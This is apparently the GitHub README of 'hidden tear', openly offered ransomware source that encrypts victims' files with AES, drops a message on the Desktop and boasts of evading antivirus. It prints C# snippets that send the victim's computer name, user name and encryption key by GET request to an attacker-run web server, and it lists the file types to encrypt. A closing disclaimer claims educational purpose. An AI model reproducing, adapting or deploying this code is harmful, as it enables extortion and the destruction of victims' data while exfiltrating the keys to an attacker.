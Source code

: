          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     

It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Send encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (13 KB).
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which support scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping).

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default lists:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
